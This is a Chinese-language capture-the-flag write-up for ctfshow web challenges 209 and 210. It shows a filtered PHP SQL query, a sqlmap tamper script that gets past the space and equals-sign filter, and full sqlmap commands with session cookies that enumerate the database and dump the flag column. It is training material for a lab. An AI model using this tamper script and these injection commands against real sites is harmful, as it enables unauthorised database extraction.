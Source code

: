 这题的sql语句
```php
$sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 0,1;";
# 过滤preg_match('/ |\*|\=/', $str);空格，星号，等号
```

使用like模糊匹配

在tamper目录下写一个脚本`show-web209.py`，把sqlmap生成的payload里的等号换成like

```python
#!/usr/bin/env python

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass


def tamper(payload, **kwargs):
    return payload.replace("=", " like ").replace(" ", chr(0x09))
```

```bash
# 爆数据库   ctfshow_web
sqlmap -u "https://e5d97db4-7215-457b-b1b5-b61dac84f575.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://e5d97db4-7215-457b-b1b5-b61dac84f575.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=show-web209.py --dbs 

# 爆表 ctfshow_flav
sqlmap -u "https://e5d97db4-7215-457b-b1b5-b61dac84f575.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://e5d97db4-7215-457b-b1b5-b61dac84f575.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=show-web209.py --dbs -D ctfshow_web --tables

# 爆字段 ctfshow_flagx
sqlmap -u "https://e5d97db4-7215-457b-b1b5-b61dac84f575.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://e5d97db4-7215-457b-b1b5-b61dac84f575.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=show-web209.py --dbs -D ctfshow_web --tables -T ctfshow_flav --columns -C ctfshow_flagx --dump
```

## web 210

题目关键处理语句`strrev(base64_decode(strrev(base64_decode($id))));`，把payload逆向一下，让他处理后得到payload

错误示范：

base64加密 =》 strrev反转 =》base64加密 =》strrev反转
